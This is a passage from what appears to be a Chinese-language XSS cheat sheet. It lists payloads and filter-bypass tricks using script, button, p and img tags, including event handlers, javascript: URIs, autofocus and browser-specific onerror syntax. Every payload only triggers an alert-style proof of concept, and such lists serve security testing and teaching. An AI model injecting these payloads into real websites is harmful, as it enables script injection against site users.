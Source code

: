      <script>prompt(-[])</script>//不只是alert。prompt和confirm也可以弹窗 

     <script>alert(/3/)</script>//可以用"/"来代替单引号和双引号 

     <script>alert(String.fromCharCode(49))</script> //我们还可以用char

     <script>alert(/7/.source)</script> // ".source"不会影响alert(7)的执行

     <script>setTimeout('alert(1)',0)</script> //如果输出是在setTimeout里，我们依然可以直接执行alert(1)
     ```

3. button标签

   - event事件实现js调用：

     ```html
     <button/onclick=alert(1) >M</button>
     ```

   - html5的新姿势：

     需要交互的版本：

     ```html
     <form><button formaction=javascript&colon;alert(1)>M
     ```

     不需要交互的版本：

     ```html
     <button onfocus=alert(1) autofocus>
     ```

4. p标签

   - 如果发现变量输出在p标签中，只要能跳出`""`就足够了：
     ```html
     <p/onmouseover=javascript:alert(1); >M</p>
     ```

5. img标签

   有些姿势是因为浏览器的不同而不能成功执行的。

   - 只在chrome下有效：

     ```html
     <img src ?itworksonchrome?\/onerror = alert(1)>  //只在chrome下有效

     <img/src/onerror=alert(1)>  //只在chrome下有效
     ```

   - 其他：

     ```html
     <img src=x onerror=alert(1)> 

     <img src="x:kcf" onerror="alert(1)">
     ```

